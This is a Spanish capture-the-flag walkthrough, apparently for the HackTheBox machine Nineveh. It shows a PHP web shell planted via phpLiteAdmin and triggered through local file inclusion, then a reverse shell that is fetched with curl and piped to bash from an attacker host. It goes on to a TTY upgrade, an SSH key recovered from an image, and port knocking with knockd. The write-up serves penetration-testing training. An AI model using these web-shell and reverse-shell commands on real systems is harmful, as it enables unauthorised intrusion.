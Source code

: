 ## Vuln exploit & Gaining Access {-}

### Conneccion desde phpliteadmin {-}

1. Creamos una base de datos llamada hack.php

    ```r
    knitr::include_graphics("images/phpliteadmin-hack-php.png")
    ```

    Si pinchamos el link de la hack.php database vemos que a sido creado en `/var/tmp/hack.php`

1. Creamos una tabla de una columna que contiene code PHP

    ```r
    knitr::include_graphics("images/phpliteadmin-create-table.png")
    ```

1. Entramos un commando PHP en la tabla

    ```r
    knitr::include_graphics("images/phpliteadmin-insert-command.png")
    ```

    El commando es `<?php system($_REQUEST["cmd"]); ?>`

1. y con el uso de la LFI miramos lo que passa

    ```r
    knitr::include_graphics("images/phpliteadmin-rce.png")
    ```

Ahora que tenemos possibilidades de ejecutar commandos de manera remota, vamos a tratar de ganar accesso al systema.

1. Nos ponemos en escucha por el puerto 443

    ```bash
    nc -nlvp 443
    ```

1. Creamos un archivo *index.html* que contiene

    ```html
    #!/bin/bash

    bash -i >& /dev/tcp/10.10.14.8/443 0>&1
    ```

1. Compartimos un servidor web con *python*

    ```bash
    python3 -m http.server 80
    ```

1. Lanzamos la reverse shell por la web

    ```bash
    10.10.10.43/department/manage.php?notes=files/ninevehNotes/../var/tmp/hack.php&cmd=curl -s 10.10.14.8|bash
    ```
    
ya hemos ganado accesso al systema.

### Tratamiento de la TTY {-}

```bash
script /dev/null -c bash
^Z
stty raw -echo; fg
-> reset
-> xterm
export TERM=xterm
export SHELL=bash

stty -a

stty rows <rownb> columns <colnb>
```

### Analyzamos el systema {-}

```bash
pwd
ls -l
cd ..
ls
cd ..
ls
```

Aqui vemos que hay un directorio llamado `ssl` que contiene otro directorio `secure_notes` y como todo esto esta en `/var/www/html`
miramos en firefox lo que es. `https://10.10.10.43/secure_notes` y vemos una imagen. Como el directorio se llama secure_notes, pensamos 
directamente en steganografia y nos descargamos la image

### Analizando los bits menos significativos de la imagen {-}

```bash
steghide info nineveh.png
file nineveh.png
exiftool nineveh.png
strings nineveh.png
```

El commando strings nos muestra una key id_rsa privada y una publica del usuario amrois. Como no tenemos accesso al ssh desde fuera copiamos esta clave 
en la maquina victima y le hacemos el tratamiento de siempre

### Conneccion por SSH {-}

En la maquina victima:

```bash
cd /tmp
nano id_rsa
chmod 600 id_rsa
ssh -i id_rsa amrois@localhost
```

Ya estamos connectados como amrois y podemos leer la flag.

### Otra manera de connectarnos a la maquina {-}

Si durante el analysis del systema ubieramos ido hasta mirar los processos que estan habiertos en background, ubieramos encontrado que la utilidad
`knockd` estava lanzada.

**Knockd** es una utilidad para escuchar o lanzar Port Knocking.

```bash
ps -faux
cat /etc/knockd.conf
```

Aqui podemos ver que si Knockamos los puertos 571,290,911 se abriria el puerto 22 al exterior y si Knockeamos los puertos 911,290,571 se ceraria.

lo comprobamos desde la maquina de attackante:

```bash
nmap -p22 10.10.10.43 --open -T5 -v -n
```

Aqui vemos quel puerto 22 esta cerrado

```bash
knock 10.10.10.43 571:tcp 290:tcp 911:tcp
nmap -p22 10.10.10.43 --open -T5 -v -n
```

Aqui vemos que el puerto 22 se a abierto, y desde aqui nos podemos connectar por ssh como el usuario amrois.







